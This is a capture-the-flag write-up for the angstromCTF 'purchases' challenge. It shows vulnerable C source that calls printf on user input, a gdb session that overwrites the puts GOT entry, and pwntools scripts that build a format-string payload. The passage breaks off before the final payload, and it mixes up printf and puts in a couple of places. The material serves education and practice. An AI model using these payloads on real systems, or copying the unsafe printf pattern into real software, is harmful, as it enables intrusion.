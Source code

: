 ## angstromCTF: purchases
>This grumpy shop owner won't sell me his flag! At least I have his source.

##### *tl;dr: format string vulnerability to overwrite printf GOT*
### Source Code Analysis
#### As with the other pwn challenges, the source codes are given - making the vulnerability finding process much easier:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	char item[60];
	printf("What item would you like to purchase? ");
	fgets(item, sizeof(item), stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}

	printf("Get out!\n");
	return 0;
}
```
#### Taking a quick look at the source code, we quickly spot the vulnerability which is the printf function being called without format specifiers (`printf(item);`). What this means is that printf interprets buffer as a format string, and parses any formatting instructions it may contain - thus leading to code executions and memory leaks. 
#### A format string exploit could be executed when the application doesn’t properly validate the submitted input. For example, if a format string parameter, like %x, is inserted into the posted data, the string is parsed by the format function, and the conversion specified in the parameters is executed. However, the format function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack. 
#### To have a better understanding of how we will exploit this challenge, here are quick links to `LiveOverflow`'s videos on format string exploitation and a Team (666)'s writeup I followed the format for mine:
> [A simple Format String exploit example - bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

> [Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

> [Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

> [Adapting the 32bit exploit to 64bit for format4 - bin 0x27](https://www.youtube.com/watch?v=_lO_rwaK_pY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=42)

> [(666) Writeup for Purchases](https://github.com/Hong5489/AngstormCTF2019/tree/master/purchases)


### Brainstorming
#### Examining the source code again, we see that there is is a flag function which prints out the flag for us. Taking a note of this, our exploit plan will be to take advantage of the format string vulnerability to overwrite puts' `GOT address` to the flag function - thus making puts execute what flag does. To test if our plan would work, we try it out in gdb. We set a breakpoint before the puts call, then change the it's GOT address to the address of flag:
```
$ gdb ./purchases
	gdb-peda$ disas printf
	Dump of assembler code for function puts@plt:
	0x0000000000401030 <+0>:	jmp    QWORD PTR [rip+0x2fe2]        # 0x404018
	0x0000000000401036 <+6>:	push   0x0
	0x000000000040103b <+11>:	jmp    0x401020
	End of assembler dump..
	
	gdb-peda$ p flag
	$1 = {<text variable, no debug info>} 0x4011b6 <flag>
	
	gdb-peda$ disas main
	[...]
	0x000000000040131a <+337>:	call   0x401080 <printf@plt>
	0x000000000040131f <+342>:	lea    rdi,[rip+0xdda]        # 0x402100
	0x0000000000401326 <+349>:	call   0x401030 <puts@plt>
	0x000000000040132b <+354>:	mov    eax,0x0
	[...]
	
	gdb-peda$ break *0x0000000000401326
	Breakpoint 1 at 0x401326
	
	gdb-peda$ r
	What item would you like to purchase? everything
	You don't have any money to buy everythings. You're wasting your time! We don't even sell everythings. Leave this place and buy everything somewhere else. 
	Breakpoint 1, 0x0000000000401326 in main ()
	
	gdb-peda$ set {int}0x404018=0x4011b6
	
	gdb-peda$ x/ 0x404018
	0x404018:	0x00000000004011b6
	
	gdb-peda$ c
	Continuing.
	[New process 11726]
	process 11726 is executing new program: /bin/dash
	Warning:
	Cannot insert breakpoint 1.
	Cannot access memory at address 0x401326
```
#### To talk you through what just happened, first we disassembled the puts function and saw that the first thing it does is to jump to it's GOT entry address, `0x404018`. Now that we have the GOT address for puts, we printed out the address for flag, set a breakpoint before our puts call. After we hit the breakpoint, we set the contents of the GOT address to flag's address, then we validate if we have successfully overwriten the value. Continuing the process, the binary executes /bin/dash and proceeds to call the flag function.

### Exploitation
#### Since we have confirmed that our plan works theoretically, it's time to craft the exploit. For this to work, we need to find out which offset we can find our buffer. We can automate this using a short script:
```python
from pwn import *

#: Connect to challenge server
p = process('./purchases')
print(p.recv())

#: Exploit code
exploit = 'AAAABBBB' + ' %p ' * 10

#: Send payload
p.sendline(exploit)
print(p.recv())
```
#### Running the script, we get this result:
```
What item would you like to purchase? 
You don't have any money to buy AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x20  0x7f5f5d4d74c0  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520 s. You're wasting your time! We don't even sell AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x30  (nil)  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520 s. Leave this place and buy AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x1c  (nil)  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520  somewhere else. Get out!
```
#### The input we provided has hex values of 0x41 and 0x42, and searching them in the output, we see that our buffer can be found at offset 8. Modifying the script we used earlier, we can verify this by only printing out the 8th offset from the leak. 
```python
#: Exploit code
exploit = 'AAAABBBB' + ' %8$p'
```
#### Which results to:
```
You don't have any money to buy AAAABBBB 0x4242424241414141s. You're wasting your time! We don't even sell AAAABBBB 0x4242424241414141s. Leave this place and buy AAAABBBB 0x4242424241414141 somewhere else. Get out!
```
#### Since we have our offset, let's modify our code and then replace the junk we input into the address we want to overwrite - puts GOT. Afterwhich we run it to see the results.
```python
#: Exploit code
puts_GOT = 0x404018
exploit = p64(puts_GOT) + ' %8$p'
```
```
You don't have any money to buy @s. You're wasting your time! We don't even sell @s. Leave this place and buy @ somewhere else. Get out!
```
#### Hmmm. There seems to be a problem with our input, it somehow stops at two bytes when there should be more. The problem with this is that `p64(puts_GOT)` contains null bytes, that's why it gets terminated. To bypass this, we need to put it after the format specifier and remember to remove the null bytes to have a clearer picture of the buffer:
```python
#: Exploit code
puts_GOT = 0x404018
exploit = '%8$p ' + p64(puts_GOT)[:3]
```
```
You don't have any money to buy 0x4040182070243825 @@s. You're wasting your time! We don't even sell 0x4040182070243825 @@s. Leave this place and buy 0x4040182070243825 @@ somewhere else. Get out!
```
#### We've printed out the address correct, but the buffer seems wrong. We only need the address for puts' GOT to be in it. So we pad our format specifier with spaces, pushing our target buffer at a higher offset. We need to keep in mind that the addresses will be 8 bytes each since its a 64-bit binary. This is what it looks like (from (666)'s writeup):
```
Before:
[      8th argument    ][          9th argument        ]
[%][8][$][p][40][40][40][00][00][00][00][00]...

After:
[      8th argument    ][          9th argument        ]
[%][8][$][p][ ][ ][ ][ ][40][40][40][00][00][00][00][00]
```

